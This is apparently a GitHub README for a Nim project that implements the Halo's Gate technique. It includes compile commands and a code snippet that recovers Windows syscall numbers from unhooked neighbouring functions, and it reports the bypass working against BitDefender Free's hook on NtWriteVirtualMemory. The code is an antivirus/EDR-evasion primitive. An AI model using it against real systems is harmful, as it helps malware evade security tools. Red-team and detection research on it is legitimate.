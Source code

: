 # HalosGateNim

A quick example of the Halo's Gate technique in Nim

Forked from <https://github.com/zimawhit3/HellsGateNim> and modified to implement [Sektor7's Halo's Gate technique](https://blog.sektor7.net/#!res/2021/halosgate.md)

## Usage

Just compile the code :

```Bash
nim c -d:mingw -passL:-Wl,--image-base --passL:-Wl,0x10000000 HalosGate.nim
```

## Demonstration

Using x64dbg, we can see that NtWriteVirtualMemory is hooked (using BitDefender free for the demo) using the usual jmp way:

![hooked](img/hooked.png)

If we use the "classic" Hell's Gate implementation, it won't work:

![failed](img/fail.png)

I modified the code to use Sektor7's Halo's Gate technique to search for unhooked neighbours:

```Nim
            elif cast[PBYTE](cast[ByteAddress](pFuncAddr))[] == 0xE9:
                for idx in countup(1,500):
                    if cast[PBYTE](cast[ByteAddress](pFuncAddr) + 3 + idx * UP)[] == 0xB8:
                        tableEntry.wSysCall = cast[PWORD](cast[ByteAddress](pFuncAddr) + 4 + (idx * UP))[] + cast[WORD](idx)
                        return true
                    if cast[PBYTE](cast[ByteAddress](pFuncAddr) + 3 + idx * DOWN)[] == 0xB8:
                        tableEntry.wSysCall = cast[PWORD](cast[ByteAddress](pFuncAddr) + 4 + (idx * DOWN))[] - cast[WORD](idx)
                        return true
```

If we retry after modifying the code, it works:

![success](img/success.png)

Tested to be working on recent version of Windows 10/11 against BitDefender Free.
